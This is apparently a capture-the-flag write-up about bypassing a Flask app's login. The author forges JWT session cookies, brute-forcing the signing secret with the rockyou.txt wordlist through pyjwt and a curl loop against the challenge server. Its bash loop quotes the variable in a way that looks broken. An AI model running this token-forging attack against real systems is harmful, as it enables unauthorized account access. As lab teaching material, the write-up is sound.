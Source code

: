 ## Problem
Upon visiting the provided URL, we are presented initially with an "Access denied" html page.

After checking the html, I perused session storage and found a cookie in the form of a JWT.

It got shoved into jwt.io and the payload was b64-encoded json struct.

```js
{
    "logged_in":"false"
}
```
I changed the polarity of the boolean and tried again, and got some fun flask errors. Fun, flask backend.

I grabbed pyjwt and modified the example code to fit my purposes

```python
payload_data = {
    "logged_in": "true",
}

token = jwt.encode(
    payload=payload_data,
    key=secret
)
```

Since the secret was unknown to me, i decided to try brute-forcing with (some of) `rockyou.txt`

```python
secrets = open("rockyou.txt", 'r').readlines()[:-50]
f = open("tokens.txt", "w+")

for secret in secrets:
    token = jwt.encode(
        payload=payload_data,
        key=secret
    )
    f.write(token + "\n")

```


I then wrote a bash script to enumerate the tokens I generated (janky, i know, but it worked)

```bash
lines=$(cat tokens.txt)
for line in $lines          
do
        curl -v -s -k "GET" --cookie 'session=$line' 'http://34.89.146.147:32555/'
done
```

I tested the script to stdout for a few seconds, then get grepped for "CTF" and got the flag after 4 tries (the secret was `'password'`).

## What I learned
JWT is pronounced "jot", and secure keys should be used for signing everything because bruteforcing passwords is trivial.

